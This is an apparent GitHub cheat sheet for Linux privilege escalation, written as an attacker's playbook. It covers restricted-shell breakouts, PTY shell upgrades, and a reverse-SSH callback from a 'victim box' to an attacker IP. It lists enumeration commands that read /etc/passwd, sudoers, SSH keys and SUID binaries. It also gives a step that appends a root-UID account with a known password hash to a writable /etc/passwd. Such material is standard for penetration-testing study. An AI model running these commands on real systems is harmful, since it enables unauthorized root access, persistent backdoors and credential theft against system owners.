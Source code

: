 ## Enumeration is the key

What is your path to root?

- https://sirensecurity.io/blog/linux-privilege-escalation-resources/
- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

### Breaking out from restricted shells

- https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf

Common bypass techniques:

`/bin/bash`

`cp /bin/bash ./`

```bash
ftp
!/bin/sh
```

```bash
vim
!/bin/sh
```

```bash
scp tom@localhost:/bin/bash ./
```


### Upgrading a low-priv shell

Using Python3:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
Ctrl + Z [Background Process]
stty raw -echo ; fg ; reset
stty columns 200 rows 200
```

Upgrading a netcat shell to a fully interactive ssh shell:

- https://github.com/Fahrj/reverse-ssh#build-tricks

on the attacker box:

```bash
./reverse-sshx64 -v -l 192.168.49.65:80
```

on the victim box:

```bash
./reverse-sshx64 -v -p 80 192.168.49.65
```

connect to your shell:

```bash
ssh kali@localhost -p 80
Password: letmeinbrudipls
```

## System Enumeration

Checking compilation capabilities:

```bash
which gcc
which cc
which python
which perl
```

Checking file-transfer capabilities:

```bash
which wget
which curl
which nc
ls -lsaht /bin/ |grep -i 'ftp' --color=auto
```

Checking the kernel/release version:

```bash
cat /etc/issue
cat /etc/*-release
```

Are we a sudo user?

```bash
sudo -l
cat /etc/sudoers
```

Checking environment variables:

```bash
env
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
```

Checking system processes:

```bash
ps aux
ps -ef
```

Checking system users:

```bash
cat /etc/passwd
cd /home && ls -lsaht
```

Finding SUID binaries:

```bash
find / -perm -u=s 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

Finding GUID binaries:

```bash
find / -perm -g=s 2>/dev/null
find / -user root -perm -g=s -exec ls -ldb {} \; 2>/dev/null
```

Checking network services:

```bash
netstat -tulpn
ss -tulpn
```

Checking for MySQL unauthorized access:

```bash
mysql -u root -p
```

Checking user-level configurations:

```bash
cd /etc
ls -lsaht
ls -lsaht |grep -i '.conf' --color=auto
```

Searching for SSH keys:

```bash
ls -lsaR /home/
```

Finding writable directories:

```bash
/var/tmp/
/tmp/
```

Finding writable files:

```bash
find / -perm -2 ! -type l -ls 2>/dev/null
```

Finding writable files owned by root:

```bash
find / -perm -2 ! -type l -ls 2>/dev/null |grep root |grep -v "/proc/"
```

Checking unusual system mounts:

```bash
cat /etc/fstab
```

Checking writable /etc/passwd file:

```bash
openssl passwd -1
i<3hacking
$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.
echo 'totekuh:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:totekuh:/home/totekuh:/bin/bash' >> /etc/passwd
su totekuh
id
```

Checking cron jobs:

```bash
crontab –u root –l
cat /etc/crontab
ls /etc/cron.*
```

Looking for every single file created by the given user:

```bash
find . -iname 'USER' 2>/dev/null
```

Any mails?
```bash
cd /var/mail/
ls -lsaht
```

Checking capabilities of a process
- https://nxnjz.net/2018/08/an-interesting-privilege-escalation-vector-getcap/
- https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities

```bash
cat /proc/1234/status | grep Cap
capsh --decode=0000003fffffffff
```

## Resources

### SUID Unix Binaries Abuse

- https://gtfobins.github.io/

### Escalation Using PATH Variable

- https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

### Unprivileged Linux Process Snooping 

- https://github.com/DominicBreuker/pspy/

### Attacking NFS Shares

- https://recipeforroot.com/attacking-nfs-shares/

### Escalation Awesome Script

- https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

### Escalation Exploit

- https://github.com/liamg/traitor

